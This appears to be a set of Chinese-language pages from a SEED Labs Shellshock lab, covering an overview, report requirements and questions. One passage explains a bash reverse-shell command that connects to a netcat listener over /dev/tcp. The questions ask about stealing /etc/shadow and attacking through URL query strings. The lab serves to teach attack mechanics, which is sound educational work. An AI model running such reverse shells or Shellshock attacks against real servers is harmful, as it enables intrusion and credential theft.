 <p>总之，命令 “/bin/bash -i &gt; /dev/tcp/10.0.2.6/9090 0&lt;&amp;1 2&gt;&amp;” 在服务器机器上启动了 bash 程序，它的输入来自一个 TCP 连接，输出也发送到相同的 TCP 连接。当我们在 10.0.2.5 上执行这条 bash 命令时，它会回连到 10.0.2.6 上运行的 netcat 进程。通过 netcat 显示的 “Connection received on 10.0.2.5...”，我们可以确认这点。</p>

========================================
文件路径: .\Shellshock攻击实验\提交\summary.html
========================================

<p>你需要提交一份带有截图的详细实验报告来描述你所做的工作和你观察到的现象。你还需要对一些有趣或令人惊讶的观察结果进行解释。请同时列出重要的代码段并附上解释。只是简单地附上代码不加以解释不会获得分数。</p>

========================================
文件路径: .\Shellshock攻击实验\概述\summary.html
========================================

<p>2014年9月24日，bash 中的一个严重漏洞被发现了。这个漏洞被称为 Shellshock，很多系统受到影响。在本实验中，我们需要进行这个攻击，以便深入了解 Shellshock 漏洞。这个实验的学习目标是通过亲身体验这个有趣的攻击，理解它是如何工作的，并思考从中可以得到的教训。本实验包含以下主题：</p>
<ul>
<li>
<p>Shellshock</p>
</li>
<li>
<p>环境变量</p>
</li>
<li>
<p>bash 中的函数定义</p>
</li>
<li>
<p>Apache 和 CGI 程序</p>
</li>
</ul>
<div>
<div>关于 Shellshock 攻击的详细指导可以在网上或 SEED 书中找到，我们不会在实验描述中重复这些内容。</div>
</div>

========================================
文件路径: .\Shellshock攻击实验\问题\summary.html
========================================

<p>请回答以下问题：</p>
<ul>
<li>
<p>问题 1: 你能否从服务器窃取 /etc/shadow 文件的内容？为什么或者为什么不行？ 任务3.B 中获得的信息应该能给你一些线索。</p>
</li>
<li>
<p>问题 2: HTTP GET 请求通常会在 URL 中附加数据，放在? 标记后面。我们可以试着用这些数据来发起攻击。在以下示例中，我们在 URL 中附加了一些数据，我们发现这些数据被用来设置成环境变量：</p>
</li>
</ul>
<pre class="language-markup"><code>$ curl "http://www.seed-server.com/cgi-bin/getenv.cgi?AAAAA"
...
QUERY_STRING=AAAAA
...</code></pre>
<p>我们能否使用这种方法发起 Shellshock 攻击？请进行你的实验，并根据实验结果得出结论。</p>
